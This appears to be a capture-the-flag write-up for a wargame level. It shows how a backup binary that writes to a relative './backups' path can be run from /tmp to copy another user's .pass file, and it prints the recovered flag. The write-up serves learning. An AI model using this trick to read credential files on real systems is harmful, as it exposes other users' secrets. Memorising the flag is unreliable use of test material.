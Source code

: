 When decompiled this binary file reveals itself. It copies byte per byte to a backup file that must be stored in a relative path `./backups`

If we pass it `/home/users/level09/.pass` when executing the binary from the level08 home folder, it won't work :
    
    1. Because there are no folder called /home/users/level09
    2. We don't have permissions to mkdir ~/backups/home/users/level09

In order to copy the .pass file we must do these commands :
```
cd /tmp 
mkdir -p backups/home/users/level09
/home/users/level08/level08 /home/users/level09/.pass
```

We have the flag `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`